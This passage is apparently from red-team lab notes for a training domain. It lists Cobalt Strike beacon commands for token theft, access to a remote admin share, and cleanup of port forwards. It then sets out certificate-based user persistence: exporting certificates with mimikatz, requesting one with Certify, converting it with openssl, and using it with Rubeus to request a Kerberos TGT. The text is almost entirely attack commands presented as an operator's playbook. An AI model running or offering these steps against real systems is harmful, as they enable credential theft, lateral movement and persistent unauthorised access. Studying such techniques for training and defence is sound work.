 # 10. Steal token and access the service
beacon> steal_token 1234
beacon> ls \\web.dev.cyberbotic.io\c$

# 11. Revert all the changes made during attack
beacon> socks stop
beacon> jobs
beacon> jobkill <portbender-Job-ID>
beacon> rportfwd stop 8445

#------------------------------------------------------------------------------------
## PERSIST-1 & PERSIST-2 : User & Computer Persistance

# PERSIST-1 : User Persistance

# 1-a. Enumerate and export user certificate from their Personal Certificate store (execute from user session)
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates
# Export the certificate as DER and PFX file on disk
beacon> mimikatz crypto::certificates /export

# 1-b. If the user does not have a certificate in their store, we can just request one with Certify. Make sure we are in Domain user's sessions context of user for which we are requesting certificate.
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User
# Save the Private And Public key both in a file with .pem extension
# Then convert the .pem file to .pfx
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# 2. Encode the PFX file to be used with Rubeus
ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0

# 3. Use certificate to request TGT for the user (/enctype:aes256 - Better OPSEC)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /enctype:aes256 /nowrap
